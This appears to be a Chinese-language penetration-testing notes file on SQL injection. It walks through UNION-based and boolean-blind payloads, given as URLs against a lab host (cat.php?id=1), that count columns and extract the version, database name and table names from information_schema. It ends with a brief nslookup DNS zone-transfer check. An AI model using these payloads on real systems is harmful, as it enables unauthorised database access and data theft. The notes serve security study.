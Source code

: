 #Pentester
##一、sql injection
###基本思路：
- 1. 判断是否有注入
- 2. 判断当前库名，表名，字段名
- 3. 获取数据
- 4. 考虑无回显处理


###sql基本用法
- 1.select id,num from test union select 1,2
一般会逐个替换1,2换成想要显示的信息，需要确定哪个位置可以正确显示，当只有一个位置可以显示的时候，可以使用concat,这里可以判断查询使用了几个字段，如果该语句正常则表示使用了2个字段。如果union用不了可以使用order by 判断。 例子： order by 1 正确，order by 3 错误则表示查询使用了2个字段
例如：select ip from temp union select concat(@@version,':',database());
例2：select concat('my','s','ql','+',@@version);   结果：mysql+5.6.28
例3：select num,ip from temp union select 1,GROUP_CONCAT(table_name) FROM information_schema.tables WHERE version=10;
num为数字型，ip为字符型，information表里面的信息都是字符型，所有要放在2这个位置，放在1的位置会报错（类型不匹配）
注意：union后面跟的列的个数必须和前面select 的个数一致,union select 后面的数字可以接任意想获取的信息（version(),current_user(),@@version,database()等）
- 2.select id,num from test order by 2  根据num进行排序
   select * from test order by 4 根据第四列进行排序，通过这个语句可以判断数据表中有多少列
- 3. select substr(table_name,17,1) from information_schema.tables limit 1;
  substr用于字符串截取，17代表取出第17个字符，后面的1代表取1个，如果是2代表从17的位置开始取出2个字符，   limit 1代表取出1条记录
- 实战:
 1. 判断注入：
http://172.16.45.128/cat.php?id=1 and true   返回正确结果
http://172.16.45.128/cat.php?id=1 and false  返回错误结果
该url存在注入
 2. 判断查询的字段个数：
http://172.16.45.128/cat.php?id=1 union select 1,2,3,4 返回正确结果
 3.判断数据库版本和库名
http://172.16.45.128/cat.php?id=1 union select 1,@@version,3,4 这里把最后的2变成了@@verison 实际的sql语句变成了  select @@version , 放在2这个位置是因为在页面上有显示内容，可以直接把查询后的信息在页面上展示了，这个可以根据实际情况进行适当处理，2这个位置可以换成database()来获取库名字，user()获取数据库用户名
4. 判断表名
使用union方式：
http://172.16.45.128/cat.php?id=1 union select 1,(select GROUP_CONCAT(table_name) FROM information_schema.tables),3,4
![image](https://github.com/luyg24/IT_security/blob/master/guess_table.png)
上述方法会查找所有表名，如果只想查找指定数据库的表，使用table_schema作为条件判断
select id,name,sex from table1 union select 1,(select GROUP_CONCAT(table_name) FROM information_schema.tables where table_schema = 'photoblog'),3;
使用盲注方式：
http://172.16.45.128/cat.php?id=1 and (SELECT SUBSTR(table_name,1,1) FROM information_schema.tables limit 1 ) > 'A'
如果返回正常代表表名的第一个字符是>'A'的
select * from users where id = 1 and ((SELECT SUBSTR(table_name,1,1) FROM information_schema.tables limit 1 )> 'A');


5. 判断字段

- 参考：http://drops.wooyun.org/tips/123
##二、
###dns区域传送检查
- nslookup 进入交互shell，使用server 指定dns服务器，然后 ls -d 域名，例如ls -d abc.com.cn   即可
参考：http://www.lijiejie.com/dns-zone-transfer-1/
- 

